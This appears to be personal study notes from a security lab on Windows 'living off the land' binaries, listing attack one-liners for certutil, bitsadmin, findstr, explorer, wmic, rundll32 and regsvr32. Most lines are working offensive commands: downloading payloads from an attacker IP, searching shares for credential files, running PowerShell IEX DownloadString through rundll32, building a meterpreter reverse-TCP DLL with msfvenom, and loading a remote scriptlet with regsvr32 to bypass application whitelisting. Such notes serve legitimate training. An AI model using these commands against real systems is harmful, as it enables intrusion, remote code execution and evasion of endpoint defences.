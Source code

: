 ### File Operation

#### Certutil
- certification services
- dump + diplay certfication authority
- Ingress tool transfer
- Download
  - certutil -URLcache -split -f http://Attacker_IP/payload.exe C:\Windows\Temp\payload.exe
- Encode / Decode
  - certutil -encode payload.exe Encoded-payload.txt
  - certutil -decode Encoded_file payload.txt

#### BITSAdmin
- create,download, upload Background Intelligente Transfer Service (BITS = files from http and smb servers)
- bitsadmin.exe /transfer /Download /priority Foreground http://Attacker_IP/payload.exe c:\Users\thm\Desktop\payload.exe

#### FindStr
- dir n: /a-d /s /b | find /c ":\\"= not directories, bare format | count
- dir n:\*cred* /s /b
- grep
- used to download from SMB
  - findstr /V dummystring \\MachineName\ShareFolder\test.exe > c:\Windows\Temp\test.exe
  - findstr /s /i cred n:\*.*

#### Execution
- Indirect command execution
- **File Explorer**
  - explorer.exe /root,"C:\Windows\System32\calc.exe"
- 
- **WMIC**
  - wmic.exe process call create calc
  
- **Rundll32**
  -  rundll32.exe javascript:"\..\mshtml.dll,RunHTMLApplication ";eval("w=new ActiveXObject(\"WScript.Shell\");w.run(\"calc\");window.close()");
  -  rundll32.exe javascript:"\..\mshtml.dll,RunHTMLApplication ";alert(123)
  -  rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run("powershell -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString('http://AttackBox_IP:PORT/script.ps1');");

- **Regsvr32**
  - system32 = 32 bit
  - SysWOW64 = 64 bits
  - Execute binaries + bypass whitelistening
  - Steps
    1. create malicious dll: msfvenom -p windows/meterpreter/reverse_tcp LHOST=tun0 LPORT=443 -f dll -a x86 > live0fftheland.dll
    2. upload the file
    3. run it: regserv32.exe c:\path\to\file
    4. regsvr32.exe /s /n /u /i:http://example.com/file.sct Downloads\live0fftheland.dll 
       1. /s = silent
       2. /n = not call DLL register server
       3. /i = Use another server
       4. /u = run unregistered
